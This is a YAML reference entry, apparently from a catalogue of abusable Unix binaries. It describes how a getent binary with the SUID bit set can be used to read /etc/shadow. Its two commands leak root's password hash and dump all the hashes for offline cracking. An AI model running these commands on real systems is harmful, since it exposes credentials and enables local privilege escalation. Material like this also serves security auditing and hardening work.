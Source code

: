 ```yaml
---
description: |
  `getent` is a utility that retrieves entries from administrative databases configured 
  via the Name Service Switch (NSS). If misconfigured with the SUID bit, it can be abused 
  to access sensitive databases such as `shadow`, which contains user password hashes, 
  including root's.

  This can lead to local privilege escalation by leaking password hashes for offline cracking.

functions:
  suid:
    - code: |
        # Leak root hash from /etc/shadow via getent SUID binary
        ./getent shadow root
    - code: |
        # Dump all hashes
        ./getent shadow
---
```

